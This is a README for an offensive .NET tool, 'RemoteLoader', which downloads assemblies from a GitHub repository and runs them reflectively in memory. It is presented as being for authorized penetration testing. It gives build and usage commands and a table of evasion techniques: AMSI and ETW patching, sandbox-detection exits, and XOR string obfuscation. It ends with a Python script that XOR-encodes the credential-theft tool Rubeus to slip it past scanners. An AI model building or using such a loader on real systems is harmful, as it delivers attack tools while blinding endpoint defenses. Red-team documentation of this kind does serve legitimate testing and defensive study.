

# Loaders

In-memory .NET assembly loader for authorized internal penetration testing.

---

## RemoteLoader.exe

Compiled .NET binary. Queries a GitHub repository, presents a numbered menu of
available tools, downloads the selected binary as raw bytes, and reflectively
invokes its `Main` method — **nothing touches disk**.

> **Note:** Only managed .NET assemblies can be loaded. Native binaries
> (PyInstaller, C++, Go, etc.) are detected and rejected before `Assembly.Load`
> is attempted.

### Compilation

```cmd
cd RemoteLoader
dotnet publish -c Release -r win-x64 --self-contained true /p:PublishSingleFile=true
```

Output: `RemoteLoader\bin\Release\net8.0\win-x64\publish\RemoteLoader.exe`

### Usage

```
RemoteLoader.exe [options]

Options:
  --repo    owner/name/subfolder  GitHub path  (default: hrstn/internal-pentest-precompiled-tools/ObfuscatedSharpCollection-main/NetFramework_4.7_Any)
  --branch  <branch>             Repo branch  (default: main)
  --token   <PAT>                GitHub PAT for private repos or to avoid rate limits
  --xor     <byte>               XOR key (0-255) to decode payload before loading
  --help                         Show help
```

Examples:

```cmd
RemoteLoader.exe
RemoteLoader.exe --repo YourOrg/your-tools/bin
RemoteLoader.exe --repo YourOrg/private-tools/bin --token ghp_xxxx
```

---

## Evasion stack

| Layer | Technique | Detail |
|---|---|---|
| AMSI | P/Invoke patch | Patches `AmsiScanBuffer` to return `E_INVALIDARG`; sensitive strings XOR-decoded at runtime |
| ETW | `EtwEventWrite` patch | Single `RET` suppresses all .NET CLR telemetry events |
| Sandbox | Uptime + process count | Exits silently if uptime < 3 min or < 15 processes |
| String obfuscation | XOR key `0x41` | `amsi.dll`, `AmsiScanBuffer`, `ntdll.dll`, `EtwEventWrite` never appear as plaintext |
| Payload encoding | XOR (optional) | Store binaries XOR-encoded in the repo; decoded in memory before `Assembly.Load` |
| Network | TLS 1.2 + system proxy | Ensures connectivity through corporate proxies |

## XOR-encoding tools for the repo

```python
# encode.py
key = 0x41
with open("Rubeus.exe", "rb") as f: data = f.read()
with open("Rubeus.exe.enc", "wb") as f: f.write(bytes(b ^ key for b in data))
```

Load with:

```cmd
RemoteLoader.exe --xor 65
```

Poc


